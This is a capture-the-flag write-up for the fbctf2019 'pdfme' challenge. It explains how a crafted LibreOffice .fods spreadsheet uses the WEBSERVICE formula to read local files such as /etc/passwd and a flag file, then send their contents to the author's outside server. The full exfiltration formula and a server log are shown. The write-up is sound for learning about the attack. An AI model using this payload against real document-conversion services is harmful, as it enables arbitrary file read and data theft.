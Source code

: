 # pdfme

This challenge is very similar to another challenge in DCTF final 2018.

But I didn't solve it when I participated in the DCTF, so this challenge still took me a lot of time.

First, we should find a valid `fods` file. And I use [this](https://github.com/BuffaloWill/oxml_xxe/blob/master/samples/sample.fods) from oxml_xxe repo.

(fods file is OpenDocument Flat XML spreadsheet format.)

We can try to use some libreoffice macro/function to read file or exfiltrate data.

There is a function `WEBSERVICE` that we can use it to read local file or send http request.

`=COM.MICROSOFT.WEBSERVICE(&quot;http://kaibro.tw/x&quot;)` => send http request to my server

`=COM.MICROSOFT.WEBSERVICE(&quot;/etc/passwd&quot;)` => read the local file `/etc/passwd`

Combine!

`=COM.MICROSOFT.WEBSERVICE(&quot;http://kaibro.tw/x&quot;&amp;COM.MICROSOFT.WEBSERVICE(&quot;/etc/passwd&quot;))`

Then it will read the `/etc/passwd` file and send the content to our server like this:

![](https://i.imgur.com/NXCbuuF.png)

So we have an arbitrary file read vulnerability now.

But the flag is not in the root directory, we should find the path of the flag first.

After fuzzing, I found there is a weird user `libreoffice_admin` from `/etc/passwd`.

So when I tried to read `/home/libreoffice_admin/flag`, it send the real flag to my server!

`[01/Jun/2019:22:05:06 +0000] "OPTIONS /xfb%7Bwh0_7h0u6h7_l1br30ff1c3_c4n_b3_u53ful%7D%0A HTTP/1.1" 200 193 "-" "LibreOffice"`

flag: `fb{wh0_7h0u6h7_l1br30ff1c3_c4n_b3_u53ful}`

payload: [flag.fods](https://github.com/w181496/CTF/blob/master/fbctf2019/pdfme/flag.fods)

